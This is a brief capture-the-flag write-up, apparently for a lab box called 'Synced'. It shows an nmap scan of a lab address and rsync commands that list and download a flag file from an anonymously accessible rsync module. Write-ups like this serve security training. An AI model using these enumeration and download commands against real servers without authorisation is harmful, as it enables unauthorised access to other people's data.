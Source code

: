 # Synced

- TL;DR: Since the `rsync` is misconfigured to permit anonymous login we are able to connect to the remote server with `rsync` cli and view the contents on the remote server.

## Reconnaissance
    
- Run an nmap scan:
```
nmap -p- --min-rate=1000 -sV 10.129.57.117

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:07 PDT
Nmap scan report for 10.129.57.117
Host is up (0.077s latency).
Not shown: 65534 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.24 seconds

```
<br>

## Exploitation

- From the scan we find the following ports open:
    - `873/tcp` running the `rsync` service.
- `rsync` allows to copy locally, to/from another host over any remote shell, or to/from a remote rsync daemon. 
- We run the following command to list out the directories on the remote host using the `rsync` cli:
    - `rsync --list-only 10.129.57.117::`
- Next we list the files inside the directory we got from the previous command:
    - `rsync --list-only 10.129.57.117::public`
- We can then transfer the file from the `public` directory on the remote host to our local machine with the following command:
    - `rsync 10.129.57.117::public/flag.txt flag.txt`
